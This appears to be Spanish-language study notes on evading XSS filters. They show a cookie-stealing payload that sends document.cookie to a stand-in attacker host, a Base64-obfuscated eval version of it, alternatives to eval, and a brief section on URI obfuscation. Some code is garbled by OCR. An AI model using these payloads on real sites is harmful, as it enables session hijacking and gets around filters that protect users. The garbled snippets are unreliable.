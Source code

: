 # evasion basico

### Base64 Encoding Evasion

* Supongamos que queremos evadir un sistema que inspecciona el código Javascript Para palabras clave específicas como eval, alerta, prompt, document.cookie u otras posibles cadenas maliciosas.
* Una posible forma de escapar este tipo de filtros es mediante la codificación Base64.

#### Cookie Stealer

Para robar cookies, no marcado como HttpOnly es relativamente fácil y comúnmente utilizamos esta carga útil JavaScript:

```js
location.href = 'http://evilpath;com/?c='+escape(document.cookie)''
```

* sin embargo, a menudo la palabra clave document.cookie puede ser detectada y bloqueada

Utilen la codificación Base64, podemos escondernos document.cookie código que traduce el vector de ataque en:

```js
eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGg7Y29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))
```

* tal vez la función eval está en la lista negra también, así que vamos a ver alternativas:

in Javascript:

```js
[].constructor.constructor("code")() //where code equals 'atob(<base64 script>)'
```

Otros métodos válidos son:

```js
setTimeout("code") #all browsers
setInterval("code") #all browsers
setImmediate("code")#IE10+
Function("code)"() #all browsers
```

### URI Obfuscation Techniques

URI (Uniform (local/remote) Identifier de los recursos

* No sólo puede ser útil en la garras de un sistema filtrado, sino también para acortar el vector para respetar un límite de longitud.

#### URL Shortening

Es una técnica en la que una URL puede ser más corta en longitud y todavía dirigir a la página requerida.

→ https://my.ine.com
